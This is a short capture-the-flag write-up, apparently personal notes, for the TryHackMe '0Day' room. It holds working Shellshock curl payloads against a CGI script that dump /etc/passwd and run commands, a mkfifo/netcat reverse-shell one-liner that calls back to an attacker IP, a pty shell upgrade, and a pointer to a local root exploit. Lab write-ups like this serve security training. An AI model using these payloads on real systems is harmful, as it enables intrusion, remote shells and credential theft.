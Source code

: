 0Day
Exploit Ubuntu, like a Turtle in a Hurricane
Link: https://tryhackme.com/room/0day

SSH Old versioned found

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" 10.10.206.199/cgi-bin/test.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ryan:x:1000:1000:Ubuntu 14.04.1,,,:/home/ryan:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
root@ip-10-10-192-226:~# 


root@ip-10-10-192-226:~# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://10.10.206.199/cgi-bin/test.cgi
www-data


For Access
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f'" <Target-IP>/cgi-bin/test.cgi
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.70.55 1234 >/tmp/f'" 10.10.113.69/cgi-bin/test.cgi

```
### Spawning Shell
python -c 'import pty; pty.spawn("/bin/bash")

https://www.exploit-db.com/exploits/37292

For Error Solving
$ gcc 37292.c -o epxl
gcc: error trying to exec 'cc1': execvp: No such file or directory

https://stackoverflow.com/questions/11912878/gcc-error-gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory

Changed the PATH to default and tried again.

Got the shell after executing.